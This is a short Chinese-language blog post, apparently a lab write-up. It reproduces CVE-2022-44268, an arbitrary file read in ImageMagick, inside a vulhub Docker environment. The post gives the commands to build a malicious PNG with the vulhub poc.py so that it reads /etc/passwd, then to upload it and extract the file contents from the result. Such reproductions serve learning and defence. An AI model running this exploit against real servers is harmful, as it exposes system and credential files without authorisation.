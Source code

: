 # 原创
：  ImageMagick任意文件读取漏洞（CVE-2022-44268）vulhub漏洞复现

# ImageMagick任意文件读取漏洞（CVE-2022-44268）vulhub漏洞复现

**ImageMagick任意文件读取漏洞（CVE-2022-44268）**

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。在ImageMagick 7.1.0-51版本及以前，其处理PNG文件的代码中存在一处功能，会导致转换图片时读取到当前操作系统上的任意文件，并将文件内容输出在图片内容中。

**漏洞复现**

`cd vulhub-master/`

`cd imagemagick/`

`cd CVE-2022-44268/`

`docker-compose up -d`

访问ip:8080 有一个文件上传的页面，功能是将用户上传的任意图片缩小成50x50的PNG图片。

**攻击准备**

1.安装pypng

`pip install pypng`

2.执行poc生成恶意图片

[vulhub/imagemagick/CVE-2022-44268/poc.py at master · vulhub/vulhub (github.com)](https://github.com/vulhub/vulhub/blob/master/imagemagick/CVE-2022-44268/poc.py)

`./poc.py generate -o poc.png -r /etc/passwd`

3.上传生成的图片

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/26b0abd19adb4fb28e629676a393e9bc.png"/><br/> 将your image的图片下载下来

4.使用poc.py读取下载的图片

`./poc.py parse -i 64c72b09b2763.png`

5./etc/passwd读取成功
